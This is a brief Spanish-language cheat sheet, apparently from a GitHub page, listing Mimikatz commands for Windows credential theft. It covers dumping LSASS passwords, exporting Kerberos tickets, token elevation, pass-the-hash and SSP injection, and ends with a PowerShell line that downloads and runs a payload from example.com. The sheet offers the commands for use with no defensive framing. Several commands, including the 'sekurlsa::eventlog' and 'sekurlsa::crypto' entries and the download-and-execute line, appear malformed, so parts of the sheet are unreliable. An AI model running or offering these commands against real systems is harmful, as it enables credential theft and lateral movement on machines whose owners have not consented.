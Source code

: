 

se utiliza para realizar operaciones relacionadas con la extracción y manipulación de credenciales en sistemas Windows.


| Tarea                                          | Comando                                                      |
|------------------------------------------------|--------------------------------------------------------------|
| Extracción de Credenciales en Texto Plano      | `mimikatz.exe "sekurlsa::logonpasswords"`                   |
| Extracción de Credenciales de LSASS            | `mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"` |
| Extracción de Credenciales de Kerberos         | `mimikatz.exe "sekurlsa::tickets /export"`                 |
| Manipulación de Tokens                         | `mimikatz.exe "token::elevate"`                            |
| Dump de Credenciales de Procesos Específicos   | `mimikatz.exe "sekurlsa::process /name:lsass.exe" "sekurlsa::logonpasswords"` |
| Inyectar Credenciales en otro Proceso          | `mimikatz.exe "sekurlsa::pth /user:username /domain:domain /ntlm:NTLMhash /run:command"` |
| Mostrar Información sobre Credenciales en Hash | `mimikatz.exe "sekurlsa::tickets /export" "sekurlsa::crypto"` |
| Inyectar Mimikatz en LSASS                    | `mimikatz.exe "misc::memssp"`                              |
| Escuchar Contraseñas de Forma Continua         | `mimikatz.exe "sekurlsa::eventlog /unkeyed"`              |
| Descargar y Ejecutar Mimikatz Remotamente     | `powershell -c "(New-Object Net.WebClient).DownloadString('http://example.com/mimikatz.exe') | Invoke-Expression"` |

